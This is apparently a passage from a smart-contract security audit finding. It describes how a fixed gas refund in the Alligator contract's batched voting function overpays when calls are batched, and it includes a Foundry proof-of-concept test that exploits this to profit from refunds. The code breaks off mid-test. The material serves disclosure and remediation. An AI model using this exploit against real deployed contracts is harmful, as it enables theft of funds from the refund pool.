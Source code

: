 This is a fixed amount, which means that if less than 36k of overhead gas is used, the user is refunded more than the amount spent.

If multiple calls to `castRefundableVotesWithReasonBatched()` are batched into a single transaction, the actual gas spent per transaction will be lower than expected because:

1) The 20k transaction overhead will only be spent once, so will result in 20k gas profit each subsequent transaction.
2) The address for receiving ETH will be "warm", which will save an additional ~2.5k gas per transaction

A situation where a large number of these calls are batched could easily be created by a user splitting their Nouns across multiple accounts, and setting up different delegation paths for each. In this situation, separate calls could be made to vote with each Nouns and with each proposal.

## Proof of Concept

To prove the exploit, I created a test where two users delegate to Alice, and rather than using the "batched" transaction, she runs a loop to call both transactions separately.

```solidity
function testZach__StealUsingRefund() public {
    vm.deal(address(alligator), 10 ether);

    address[] memory authority1 = new address[](2);
    authority1[0] = address(this);
    authority1[1] = address(Utils.alice);

    address[][] memory authorities1 = new address[][](1);
    authorities1[0] = authority1;

    address[] memory authority2 = new address[](2);
    authority2[0] = address(Utils.bob);
    authority2[1] = address(Utils.alice);

    address[][] memory authorities2 = new address[][](1);
    authorities2[0] = authority2;

    address[][][] memory authorities = new address[][][](2);
    authorities[0] = authorities1;
    authorities[1] = authorities2;

    Rules[] memory baseRulesBatch = new Rules[](2);
    baseRulesBatch[0] = baseRules;
    baseRulesBatch[1] = baseRules;

    alligator.subDelegateAll(Utils.alice, baseRules);
    alligator.create(Utils.bob, baseRules, true); // selfProxy

    vm.prank(Utils.bob);
    alligator.subDelegateAll(Utils.alice, baseRules);

    uint balanceBefore = Utils.alice.balance;
    uint gasBefore = gasleft();

    vm.startPrank(Utils.alice, Utils.alice);
    for (uint i = 0; i < 2; i++) {
        alligator.castRefundableVotesWithReasonBatched(baseRulesBatch, authorities[i], 1, 1, "");
    }

    uint gasAfter = gasleft();

    // Adjust Alice balance as if she paid for gas
    uint gasUsed = gasBefore - gasAfter;
    uint gasCost = gasUsed * tx.gasprice;
```